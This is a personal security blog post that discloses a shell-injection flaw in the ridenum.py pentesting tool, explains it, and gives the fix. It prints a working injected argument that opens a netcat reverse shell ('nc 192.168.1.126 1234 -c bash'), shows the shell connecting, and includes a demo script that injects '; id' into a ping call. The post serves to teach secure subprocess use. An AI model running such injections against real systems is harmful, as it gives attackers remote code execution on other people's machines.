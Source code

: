 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Python's Risky Subprocess Module & Pwning A Pentesting Tool
_____________________________________________________________________

For some reason looking at other people's source code makes me get all warm and fuzzy inside. Kinda of like the description a Millenial hipster gives you. You know, when they tell you how they sat down and read a 'good book' with a cup of gluten-free, 100% non-GMO, Rainforest Alliance Certified Coffee. 

Reading source code from other individuals or groups can give you an insight into a lot of things like:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc.
  * What not to do when developing an application of any sort
  * What the drug or alcohol choice of the individual/group was during development ;)
  
## Some Of Python's Dangerous Functions & Methods
Python is a fantastic language. It's one of my favorites along side PowerShell, and C#. However, like all computer languages it doesn't come without it's flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
 
The links above focus more in which a user is prompted to provide input via the `input` function in Python. Leveraging command injection via command line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as a vast majority of Linux machines will probably not have this tool installed. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the Domain SID, but that's not really important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool is using `Subprocess.Popen` objects to execute a shell command. These appear on the following lines:
 * 62
 * 78
 * 111
 * 256

There are at least two arguments that helped me obtain code execution, which was the argument for the remote host's IP address and the `auth` argument. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (optional username + % + optional password) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken in to consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no no, especially if you allow a user to supply input to your script or program. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command.

Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little tricker. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This doesn't work, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of crap after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject a Netcat command to give us a reverse shell.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
ls
CHANGELOG.txt
LICENSE.txt
README.md
ridenum.py
```

Note the double quotes surrounding the `ip` argument. Also note how I placed the `nc` command within the `ip` argument. Why do I need two `;`? If I don't add another `;` to terminate, `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after `-c bash` will keep the reverse shell alive until you exit it.

### More on the `auth` argument
There's an important point I want to address concerning command injection via the `auth` argument. Take a look at line 59 (`command = 'rpcclient -U "%s" %s -c "lsaquery"' % (auth, ip)`) on the github page for ridenum. Note that the data supplied for the `auth` argument is enclosed in additional double quotes. Thus, the argument will be treated as actual string rather than an actual bash command. To confirm this, I removed the double quotes that the `auth` argument (`user%pass`) was enclosed in and was able to obtain a reverse shell. So this means that command injection via the `auth` argument being used on line 59 will not be successful. However, on line 73 (`command = 'rpcclient -U "" %s -c "lookupnames %s"' % (auth, ip)`) a shell command call to invoke rpcclient is made again to use the lookupnames command, but this time the argument given for `auth` is not enclosed in double quotes. This is were the command will be injected if the `auth` argument is used for injection. Also take note that this time the `ip` argument is enclosed in double quotes.

## The Fix
Command/Shell injection via a Python script is really that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. In addition, breaking down the string referenced by the `command` variable into a list of strings would fix the issue also. Doing this will not treat each string value in subsequent indices as an argument to the string in the first indice. You could enclose arguments in literal quotes, but that's not really necessary if you implement the two former options.

For example changing `subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)` to `subprocess.Popen(["rpcclient", "-U", "{}".format(auth), "{}".format(ip), "-c", "lsaquery"], stdout=subprocess.PIPE)` removes the chance for command injection. `shell=False` does not have to be explicitly stated as it is a default.


#### You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```
